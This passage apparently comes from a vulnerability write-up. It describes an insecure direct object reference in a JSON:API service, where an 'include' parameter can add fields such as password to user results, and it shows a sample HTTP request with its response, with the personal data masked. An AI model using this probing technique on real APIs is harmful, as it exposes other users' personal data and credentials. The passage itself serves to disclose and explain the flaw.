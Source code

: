             "effectivePriority": "PERMIT",
            "effectiveBehavior": "PERMIT",
            "translationKey": "general.configuration",
            "type": "FunctionalityPermissionDTO"
        }, {
            .......
```
```
## Impersonate or Insecure Direct Object References (IDOR)
In addition to the use of the `filter` parameter, it is possible to use other parameters such as `include` which allows to include in the result certain parameters (e.g. language, country, password...).

In the following example, the information of our user profile is shown:
### Request
```
GET /api/users?include=language,country HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJ......
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
```### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:47:27 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 540
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": [{
        "id": "D5********************",
        "type": "UserGetResponseCustomDTO",
        "attributes": {
            "status": "ACTIVE",
            "countryId": 63,
            "timeZoneId": 3,
            "translationKey": "**********",
            "email": "domingo....@domain.local",
            "firstName": "Domingo",
            "surname": "**********",
            "telephoneCountryCode": "**",
            "mobilePhone": "******",
            "languageId": 1,
            "createdAt": "2024-03-11T07:24:57.627Z",
            "termsOfUseAccepted": true,
            "howMeetUs": "**************",
            "id": "D5********************",
            "type": "UserGetResponseCustomDTO"
        }